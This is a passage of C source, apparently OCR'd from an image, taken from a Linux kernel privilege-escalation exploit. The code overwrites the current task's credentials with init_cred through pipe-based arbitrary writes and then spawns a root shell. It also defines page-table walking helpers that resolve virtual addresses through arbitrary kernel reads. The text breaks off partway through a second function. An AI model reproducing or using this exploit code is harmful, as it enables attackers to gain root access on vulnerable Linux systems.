 ```c
    tsk_buf[363] = init_cred;
    tsk_buf[364] = init_cred;
    tsk_buf[377] = init_nsproxy;

    arbitrary_write_by_pipe((struct page*) current_task_page, buf, 0xff0);
    arbitrary_write_by_pipe((struct page*) (current_task_page+0x40),
                            &buf[512], 0xff0);

    puts("[+] Done.\n");
    puts("[*] checking for root...");

    get_root_shell();
}

#define PTE_OFFSET 12
#define PMD_OFFSET 21
#define PUD_OFFSET 30
#define PGD_OFFSET 39

#define PT_ENTRY_MASK 0b111111111UL
#define PTE_MASK (PT_ENTRY_MASK << PTE_OFFSET)
#define PMD_MASK (PT_ENTRY_MASK << PMD_OFFSET)
#define PUD_MASK (PT_ENTRY_MASK << PUD_OFFSET)
#define PGD_MASK (PT_ENTRY_MASK << PGD_OFFSET)

#define PTE_ENTRY(addr) ((addr >> PTE_OFFSET) & PT_ENTRY_MASK)
#define PMD_ENTRY(addr) ((addr >> PMD_OFFSET) & PT_ENTRY_MASK)
#define PUD_ENTRY(addr) ((addr >> PUD_OFFSET) & PT_ENTRY_MASK)
#define PGD_ENTRY(addr) ((addr >> PGD_OFFSET) & PT_ENTRY_MASK)

#define PAGE_ATTR_RW (1UL << 1)
#define PAGE_ATTR_NX (1UL << 63)

size_t pgd_addr, mm_struct_addr, *mm_struct_buf;
size_t stack_addr, stack_addr_another;
size_t stack_page, mm_struct_page;

size_t vaddr_resolve(size_t pgd_addr, size_t vaddr)
{
    size_t buf[0x1000];
    size_t pud_addr, pmd_addr, pte_addr, pte_val;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pgd_addr), buf);
    pud_addr = (buf[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pud_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pud_addr), buf);
    pmd_addr = (buf[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pmd_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pmd_addr), buf);
    pte_addr = (buf[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pte_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pte_addr), buf);
    pte_val = (buf[PTE_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);

    return pte_val;
}

size_t vaddr_resolve_for_3_level(size_t pgd_addr, size_t vaddr)
{
    size_t buf[0x1000];
```